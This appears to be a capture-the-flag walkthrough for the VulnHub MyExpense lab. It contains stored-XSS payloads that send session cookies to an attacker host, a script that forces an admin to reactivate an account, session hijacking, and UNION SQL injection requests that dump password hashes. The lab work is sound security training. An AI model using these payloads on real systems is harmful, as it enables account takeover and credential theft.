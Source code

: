 # máquinas

- **Target Machine - MyExpense**: [https://www.vulnhub.com/entry/myexpense-1,405/](https://www.vulnhub.com/entry/myexpense-1,405/)

---

## Scenario

You are **Samuel Lamotte**, and you’ve just been fired from your company **Furtura Business Informatique**. Unfortunately, due to the abrupt departure, you didn’t have the chance to validate the expense report from your last business trip, totaling €750 — the cost of a round-trip flight with your last client.
Fearing your former employer might refuse to reimburse you, you decide to hack into the internal application called **"MyExpense"**, used by the company to manage employee expense reports.
 
You are currently parked outside the company building, connected to the internal Wi-Fi network (the password hasn’t been changed since your departure). The application is protected by a login form with username and password authentication. You hope your credentials still work.

Known credentials:  
`slamotte:fzghn4lw`

Once the challenge is completed successfully, the flag will appear within the application while logged in as **Samuel**.

---

## 1. Discovery and Initial Enumeration

### Network Discovery and IP Identification

Discovered the machine’s IP: `192.168.56.101`

```bash
arp-scan -I enp0s8 --localnet --ignoredups
````

### Full Port Scan

Once the IP was known, a full port scan was performed:

```bash
nmap -sS -Pn -n -p- --min-rate --open 5000 192.168.56.101 -oG ./nmap/allports
```

![Nmap All Ports](images/Pasted%20image%2020250719171605.png)

Since the challenge context mentions a web application, focus was directed to port 80.

### Service Enumeration

```bash
nmap -sCV -p80 -Pn -n 192.168.56.101 -oN ./nmap/recon
```

![Nmap Recon](images/Pasted%20image%2020250719172052.png)

The scan revealed valuable insights, such as the presence of an `/admin/` directory. Additionally, it showed the absence of the `HttpOnly` flag, which may leave the application vulnerable to cookie theft.

---

### Accessing Admin Interface

Accessing the directory `http://192.168.56.101/admin/admin.php` revealed a list of active and inactive users. Our user `slamotte` appears as **inactive**.

![Admin Interface](images/Pasted%20image%2020250719172553.png)

---

## 2. Exploitation - Account Creation and Stored XSS

It was found that the **signup button** could be bypassed to create new users even when it appeared disabled.

![Signup Form](images/Pasted%20image%2020250719173049.png)

Upon discovering this, an attempt was made to inject a basic XSS payload into the `firstname` and `lastname` fields. It was successful:

```javascript
<script>alert("XSS")</script>
```

Returning to `http://192.168.56.101/admin/admin.php`, the alert was triggered:

![XSS Triggered](images/Pasted%20image%2020250719173537.png)

---

### Cookie Theft Attempt

Attempted to steal cookies by injecting a malicious script in the form:

```javascript
<script src="http://192.168.56.102/robcookies.js">

	var request = new XMLHttpRequest();
	request.open('GET','http://10.0.2.15/?cookie=' + document.cookie );
	request.send();

</script>
```

Successfully captured the admin (`rmasson`) cookies. However, session hijacking failed due to a restriction: only **one session per user** is allowed simultaneously.

---

### Forced Admin Action via XSS

The admin user (`rmasson`) actively monitors new user registrations. Knowing this, an XSS payload was crafted to **force the admin to reactivate** the `slamotte` account via a crafted request:

```javascript
<script src="http://192.168.56.102/script.js"></script>
```

The hosted script contained:

```javascript
var domain = " http://192.168.56.101/admin/admin.php?id=11&status=active";
var req1 = new XMLHttpRequest();
req1.open('GET', domain, false);
req1.send();
```

Started the listener:

```bash
python -m http.server 80
```

![Listener Started](images/Pasted%20image%2020250719180209.png)

---

## 3. Access Recovered and Expense Submitted

Successfully logged into the **slamotte** account. The €750 expense was still pending and was submitted:

![Expense Submitted](images/Pasted%20image%2020250719180743.png)

---

## 4. XSS in Internal Chat & Session Hijacking

The platform includes a chat feature with messages from both the **Manager (Manon Riviere)** and the **Finance Approver**.

![Chat Feature](images/Pasted%20image%2020250719181214.png)

Suspecting the chat might be vulnerable to XSS, the following script was injected:

```javascript
<script src="http://192.268.56.102:4749/robcookies.js"></script>
```

Script content:

```javascript
var request = new XMLHttpRequest();
request.open('GET','http://192.268.56.102:4444/?cookie=' + document.cookie);
request.send();
```

Cookies from chat users were successfully exfiltrated:

![Cookies Exfiltrated](images/Pasted%20image%2020250719183341.png)

Switched session to the **manager (Manon Riviere)** using the cookie:
`6tqplpcj4n4dl43kig1dipdc32`

![Manager Session](images/Pasted%20image%2020250719183914.png)

With manager access, approved the previously submitted expense:

![Expense Approved](images/Pasted%20image%2020250719184016.png)

---

## 5. SQL Injection - Extracting Credentials

While browsing the **Rennes** section, it was found that the parameter `?id=` was vulnerable to SQL Injection.

Confirmed with:

```http
http://192.168.56.101/site.php?id=2 order by 2 -- -
```

![SQL Order By](images/Pasted%20image%2020250719184415.png)

Extracted the database name using:

```http
http://192.168.56.101/site.php?id=2 union select 1,database()-- -
```

![Database Extracted](images/Pasted%20image%2020250719184739.png)

Listed all tables:

```http
http://192.168.56.101/site.php?id=2 union select 1,table_name from information_schema.tables where table_schema='myexpense'-- -
```

![Tables Listed](images/Pasted%20image%2020250719185243.png)

Targeted the `user` table and listed its columns:

```http
http://192.168.56.101/site.php?id=2 union select 1,column_name from information_schema.columns where table_schema='myexpense' and table_name='user'-- -
```

![Columns Listed](images/Pasted%20image%2020250719185605.png)

Finally, dumped usernames and password hashes:

```http
http://192.168.56.101/site.php?id=2 union select 1,group_concat(username,0x3a,password) from user-- -
```

![Hashes Dumped](images/Pasted%20image%2020250719185939.png)

Used **hashes.com** to crack the hashes online.

The relevant user was: `pbaudouin`
Recovered password in plaintext: `HackMe`

![Password Cracked](images/Pasted%20image%2020250719190204.png)

---

## 6. Final Step – Expense Fully Approved

Logged in as `pbaudouin`, found the pending expense and approved it:

![Final Approval](images/Pasted%20image%2020250719190514.png)

Finally, logged back in as `slamotte` to confirm that the €750 reimbursement was approved and completed:

![Challenge Completed](images/Pasted%20image%2020250719190657.png)

✅ Challenge successfully completed.

```

---
